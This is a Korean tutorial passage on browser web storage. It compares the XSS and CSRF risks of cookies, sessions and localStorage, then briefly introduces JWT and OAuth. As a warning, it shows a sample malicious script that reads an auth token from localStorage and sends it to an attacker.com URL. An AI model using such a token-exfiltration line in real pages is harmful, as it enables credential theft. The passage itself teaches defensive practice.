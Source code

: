 
### 💾 3. Web Storage (localStorage / sessionStorage)
- 브라우저 전용 저장소로, 서버와는 무관
- 클라이언트 측에서 자바스크립트로만 접근 가능
- 용도: 페이지 상태 유지, 임시 데이터 캐싱, 테마 설정 등

> ❗주의: localStorage에 토큰 저장 시 XSS에 취약 → 민감 정보는 절대 저장 금지
```
// localStorage
localStorage.setItem("theme", "dark");
const theme = localStorage.getItem("theme");

// sessionStorage
sessionStorage.setItem("step", "2");

```


---


### 🔐 보안 리스크 비교

| 항목	 | Cookie |	Session	| localStorage / sessionStorage |
|---|---|---|---|
| 📤 자동 전송 |	✅ (매 요청마다)	| ✅ (sessionId만 전송)	| ❌ (명시적 전송만) |
| ❗ XSS 취약성	 | ❌ (document.cookie로 읽힘 unless HttpOnly) |	❌ (세션ID 탈취 가능성)	| ✅ 심각함 (스크립트로 직접 접근 가능) |
| ❗ CSRF 취약성 |	✅ 자동 전송으로 인해 위험 |	✅ 동일 |	❌ 안전 (자동 전송 X) |
| 🔒 보호 방법 |	HttpOnly, Secure, SameSite |	SameSite + 토큰 재검증	| 민감 정보 절대 저장 금지, CSP 설정 |


### 🔐 XSS 예시 위험 (localStorage)
> ⚠️ localStorage에 인증 토큰 절대 저장 금지!
```
// 악성 스크립트
const token = localStorage.getItem('authToken');
fetch('https://attacker.com/steal', { method: 'POST', body: token });

```

---


인증 방식 중에서도 실무에서 가장 많이 쓰이는 두 가지엔 JWT 기반 인증 구조와 OAuth 2.0 인증 방식이 있습니다.

JWT는 자체 인증 시스템을 구현할 때 stateless하게 사용자 인증 정보를 주고받을 수 있어서 확장성과 성능 면에서 유리합니다.
반면 OAuth 2.0은 Google, Naver 같은 외부 서비스의 인증을 위임받는 구조로, 복잡하지만 사용자 진입장벽을 낮출 수 있는 장점이 있습니다.
실무에서는 둘을 혼합해 Access Token은 JWT로 구성하고, OAuth 로그인을 통해 초기 인증을 대체하는 방식도 자주 사용하곤 합니다.

### JWT

JWT는 3개의 Base64 인코딩된 문자열을 점으로 이어 붙인 형태입니다.
